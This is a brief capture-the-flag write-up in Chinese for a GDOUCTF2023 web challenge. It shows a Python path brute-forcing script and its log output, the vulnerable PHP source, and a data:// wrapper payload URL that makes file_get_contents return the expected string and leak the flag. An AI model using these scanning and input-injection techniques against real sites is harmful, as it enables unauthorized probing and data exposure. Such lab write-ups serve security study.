tags:: CTF/WP/GDOUCTF2023

- > 复现
- # 思路
	- 爆
		- ```python
		  def test_uri(uri):
		      r = base_get(url + "/" + uri.removeprefix("/"), acceptable_code=None)
		      return len(r.text) if r.status_code else -r.status_code
		  
		  auto_burst_resp_len_multi(
		      test_uri,
		      fileread.readlinesfrom("../HandyFuzzDict/httppath.txt")
		  )
		  ```
	- 得
		- ```
		    0%|          | 0/235 [00:00<?, ?it/s]
		  INFO:root:[Auto Burst] Get: 67 Arg: .git
		  INFO:root:[Auto Burst] Get: 67 Arg: .git/HEAD
		    4%|▍         | 10/235 [00:00<00:04, 50.64it/s]INFO:root:[Auto Burst] Get: 169 Arg: source.php
		   35%|███▌      | 83/235 [00:01<00:03, 50.24it/s]INFO:root:[Auto Burst] Get: 190 Arg: www.rar
		  100%|██████████| 235/235 [00:05<00:00, 46.38it/s]
		  ```
	- 看
		- `http://node2.anna.nssctf.cn:28329/orzorz.php`
		- ```php
		   <?php
		  error_reporting(0);
		  if(isset($_GET['cxk'])){
		      $cxk=$_GET['cxk'];
		      if(file_get_contents($cxk)=="ctrl"){
		          echo $flag;
		      }else{
		          echo "洗洗睡吧";
		      }
		  }else{
		      echo "nononoononoonono";
		  }
		  ?> 
		  ```
	- 绕
		- ```
		  http://node2.anna.nssctf.cn:28329/orzorz.php?cxk=data://text/plain,ctrl
		  ```